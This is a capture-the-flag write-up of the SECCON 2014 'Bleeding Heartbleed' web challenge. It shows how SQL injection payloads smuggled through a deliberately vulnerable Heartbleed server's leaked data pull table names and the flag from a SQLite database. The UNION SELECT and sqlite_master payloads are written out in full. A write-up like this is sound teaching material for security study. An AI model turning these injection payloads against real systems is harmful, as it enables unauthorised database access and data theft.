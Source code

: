 # SECCON CTF 2014: Bleeding “Heartbleed” Test Web

**Category:** Web
**Points:** 300
**Description:**

> <http://bleeding.pwn.seccon.jp/>

## Write-up

The link points to a service that allows you to enter an IP address and a port number. The correspondingserver is then tested for the Heartbleed vulnerability.

Entering a random IP address (in this case, `173.194.65.100`, one of Google’s IPs) and port 443 results in the URL `http://bleeding.pwn.seccon.jp/?ip=173.194.65.100&port=443`, which displays the test results:

> ```
> Connecting...
> Sending Client Hello...
> Waiting for Server Hello...
>  ... received message: type = 22, ver = 0302, length = 61
>  ... received message: type = 22, ver = 0302, length = 3852
>  ... received message: type = 22, ver = 0302, length = 331
>  ... received message: type = 22, ver = 0302, length = 4
> Sending heartbeat request...
> ```

Below the test results, there is a disclaimer:

> We put test results into our database for analysis. Thank you for your understanding.

A-ha… Could this be a SQL injection challenge?

The HTML source code contains a comment:

```html
<!-- DEBUG: INSERT OK. TIME=1417889356 -->
```

This indicates that the server performs an `INSERT` query.

First, we need to set up a server that is vulnerable to Heartbleed, and that ‘bleeds’/leaks a payload under our control. Luckily, [PPP has already written a script doing just that for PlaidCTF](https://github.com/pwning/plaidctf2014/blob/master/web/heartbleed/Makefile). After some small tweaks to make it read the Heartbleed payload from a file (`/tmp/heartpayload`) at run-time rather than from a hardcoded string at compile-time, we end up with [`Makefile`](Makefile). Insert your server’s IP address at the top of the file, and then run:

```bash
$ make clean && make && ./heartbleed.sh
```

Entering your server details on the web page then takes you to <http://bleeding.pwn.seccon.jp/?ip=$your_server_ip&port=443>. By editing the `/tmp/heartpayload` file on our server and then reloading the above page, we can easily test different payloads.

Using just a single quote (`'`) as the payload results in the following error message:

> DATABASE ERROR!!! near ".": syntax error
>
> ```sql
> select time from results where result='Connecting... Sending Client Hello... Waiting for Server Hello... ... received message: type = 22, ver = 0302, length = 66 ... received message: type = 22, ver = 0302, length = 839 ... received message: type = 22, ver = 0302, length = 331 ... received message: type = 22, ver = 0302, length = 4 Sending heartbeat request... ... received message: type = 24, ver = 0302, length = 16384 Received heartbeat response: .@.'...... WARNING: server returned more data than it should - server is vulnerable! ';
> ```

It seems the server executes the abovementioned `INSERT` query, followed by a `SELECT` query just to fetch the matching timestamp that is displayed in the HTML comment.

After some attempts we realize we can override the timestamp value by using a payload like this:

```
' UNION SELECT 1337 WHERE 1=1 OR '1' LIKE '
```

The `1337` part of that payload is reflected in the HTML comment:

```html
<!-- DEBUG: INSERT OK. TIME=1337 -->
```

Since it seems to be a sqlite database, let’s try to figure out the table names:

```
' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table';--
```

The result:

```html
<!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt -->
```

So there are three tables: `results`, `ssFLGss`, and `ttDMYtt`. That second one seems interesting. Eventually we end up with this final payload:

```
' UNION SELECT flag from ssFLGss WHERE 1=1 OR '1' LIKE '
```

And the result:

```
<!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
```

The flag is `SECCON{IknewIt!SQLiteAgain!!!}`.

## Other write-ups and resources

* <http://tasteless.eu/2014/12/seccon-ctf-2014-online-qualifications-web300-writeup/>
* <http://lovelydream.gitcafe.com/2014/12/08/seccon/#Web_300_Heartbleed>
* <https://github.com/S42X/CTF/blob/master/SECCON/Bleeding_Heartbleed.md>
* [Portuguese](https://ctf-br.org/wiki/seccon/seccon2014/w300-bleeding-heartbleed-test-web/)
* [Thai Video](https://www.youtube.com/watch?v=AmcWJSr-4C8)
